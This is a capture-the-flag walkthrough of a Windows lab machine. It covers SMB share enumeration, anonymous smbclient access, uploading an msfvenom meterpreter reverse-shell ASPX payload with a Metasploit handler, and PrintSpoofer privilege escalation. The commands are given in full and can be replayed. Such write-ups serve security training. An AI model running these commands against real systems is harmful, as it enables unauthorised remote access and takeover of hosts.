 ## Enumeration
First we run an nmap scan on the ip given which reveals 2 web servers and smb servers.

Looking at the http website for this there is nothing significant there.
So we can enumerate the smb shares on this server.

`nmap --script=smb-enum-* HOST-IP -oN smb_enum.nmap`

## Recon
We find a peculiar share named `/nt4wrksv` on it.

Logging into it using smbclient: `smbclient //HOST-IP/nt4wrksv` and pasword is blank.

We see a passwords file with base64 encoded passwords in it. I thought this could be useful but it wasn't.

Bit of the dead end here.
So I did a gobuster search on the web server running on port `49663`. We find a directory there called `nt4wrksv`. 
We can access the passwords.txt file on this web server meaning if we upload a reverse shell to this share and trigger it using the web server we can work with something.

## Exploitation
So I made a payload using msfvenom to upload into the share using smbclient.

To get the info on arch google the service info form the nmap scan.

`msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 LHOST=tun0 LPORT=4444 -f aspx -o rev.aspx`

We upload this to nt4wrksv share using the `put` command.
Now we set up a handler on metasploit.

`use exploit/multi/handler    
 set payload windows/x64/meterpreter/reverse_tcp    
 set lhost tun0    
 set lport 4444    
 run    
`

Now that we have this setup we can trigger the rev.aspx either by a curl command or by manually going there in a web browser.

`curl http://HOST-IP:49663/nt4wksv/rev.aspx`

The reason I used a meterpreter shell rather than a normal reverse shell is because I can execute all linux commands on meterpreter and it works on windows server.

We get a meterpreter shell now. We can navigate over to `C:/Users/Bob/` where we have our user.txt file.

## Privilege Escalation
if we see the `whoami /priv` , it will list all privileges accessible for the user Bob.

We can see here that `SeImpersonatePrevilige` is enabled. Hence, we can a use a tool called [printspoofer](https://github.com/dievus/printspoofer) to get root access.

We download this onto our machine and upload through the `upload` command in meterpreter and run this: `PrintSpoofer.exe -i -c cmd`

Now we have root access. We can go to the directory `c:/users/administartor/desktop` and print out the root flag.